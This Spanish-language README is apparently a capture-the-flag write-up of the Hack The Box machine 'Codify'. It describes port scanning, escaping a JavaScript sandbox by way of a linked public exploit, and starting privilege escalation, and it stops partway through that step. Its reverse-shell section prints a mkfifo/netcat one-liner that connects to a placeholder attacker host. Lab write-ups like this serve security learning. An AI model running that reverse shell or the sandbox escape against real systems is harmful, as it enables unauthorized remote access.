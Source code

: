 # Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f


## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.
